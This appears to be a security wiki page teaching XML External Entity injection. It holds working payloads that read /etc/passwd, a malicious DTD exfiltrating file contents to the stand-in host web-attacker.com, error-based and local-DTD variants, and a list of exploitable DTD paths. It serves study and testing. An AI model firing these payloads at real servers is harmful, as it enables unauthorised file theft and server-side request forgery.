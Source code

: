 ```yaml
---
description: Injecting Entities into XML data to read local files and exfiltrate data
---
```


# XML External Entities (XXE)

{% embed url="https://portswigger.net/web-security/xxe" %}
Source of most examples on this page
{% endembed %}

## XML

Extensible Markup Language (XML) is a common data format for defining structures of data that can be nested. The basics are very simple, HTML is basically XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

It also allows variables called "entities" to be defined and used throughout the document. These are defined in the Document Type Definition (DTD) using a `<!ENTITY` tag. After that, they can be used anywhere in the document using the `&[name];` syntax:

{% code title="Example of XML Entities" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY something "381"> ]>
<stockCheck><productId>&something;</productId></stockCheck>
```
{% endcode %}

## External Entities

This becomes more dangerous when we introduce **External Entities**. These can reference local files or remote URLs:

{% code title="Example of a local file" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

{% code title="Example of a remote URL" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/endpoint?key=value"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

These become exploitable when an attacker can inject such entities into a document that will be parsed by the server, and then the result is returned in the response. You could easily read a local file like this, or make any GET request by the server (SSRF).&#x20;

## Blind XXE

In some cases, the document you send to the server is not directly returned back to you, only parsed by the server. All hope is not lost, as there are still various different techniques to make it exploitable.&#x20;

These can be easily detected with out-of-band detection. Tools like [`interactsh-client`](https://github.com/projectdiscovery/interactsh) can set up a domain that listens for DNS and HTTP requests, and you can send this domain as an external entity to see if a callback happens:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### External DTDs

The goal of most XXE injections is to exfiltrate a local file. Using entities, we can load a file into a variable, and we can make a DNS/HTTP request to any fixed URL. But we can combine the two with External DTDs, which allow the **nesting** of entities using special "parameter entities". You can recognize these by the `%` percentage sign during definition and are used with the `%[name];` syntax.&#x20;

This allows us to define a `file` entity, and then put this entity into the URL of another entity. Once these are used anywhere in the document, the contents of the file are put in the URL and the request is made:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
{% endcode %}

The catch is that External DTDs need to be, well, **external**. This means they cannot be inside of your initial payload and must be fetched from a local file or a remote URL. An attacker can host the file above, and then create the XXE injection attack with the following payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Error Based

A server might be hardened so that it cannot make random outgoing connections to your attacker's website, either to fetch the External DTD or to exfiltrate the file contents. In this case, two new techniques can be combined to still exfiltrate local files.&#x20;

An application might return details about an error when something goes wrong during the parsing of the XML document. One such error would be if it cannot find the local file specified in the entity. We can abuse this by defining a `%file;` entity again, and then using the file contents in the **path** of another entity, showing those contents in an error message:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
{% endcode %}

{% code title="Example response" %}
```java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
{% endcode %}

Now you might be thinking, how do we load that external entity if outgoing connections are blocked? And this is where the second technique comes in.&#x20;

On many systems, there are **existing** XML **DTDs** that can be repurposed by us attackers to do something similar to what you see above. One simple example is the \
`/usr/share/xml/fontconfig/fonts.dtd`\
file with the following content:

{% code title="fonts.dtd" %}
```xml
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```
{% endcode %}

The danger here is that an attacker can define this `%expr;` variable **before** it is defined here, and only the first definition will be used. From here, the attacker can escape the context using `)>` to add their own entities as if it were an external DTD that they control:

```xml
<!DOCTYPE message [
    <!-- Define the file path -->
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!-- Overwrite the %expr; entity to inject our error-based entities -->
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    <!-- Load the local DTD now that it is set up -->
    %local_dtd;
]>
<message></message>
```

The payload needed will depend on what variables you can overwrite, and the context they are in. Template payloads on 5 different example contexts can be found here:

{% embed url="https://github.com/GoSecure/dtd-finder/blob/2c69ee0be7ab62dd470f0057799577d887782ead/src/main/kotlin/EntityTester.kt#L139-L223" %}
5 different context escapes using local DTDs
{% endembed %}

Here are a few more paths where you might find an existing exploitable DTD:

<details>

<summary>Wordlist (<a href="https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/">source</a>)</summary>

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

</details>

This technique will allow you to again get the file contents in the error message, without needing any outgoing connection to your server.&#x20;
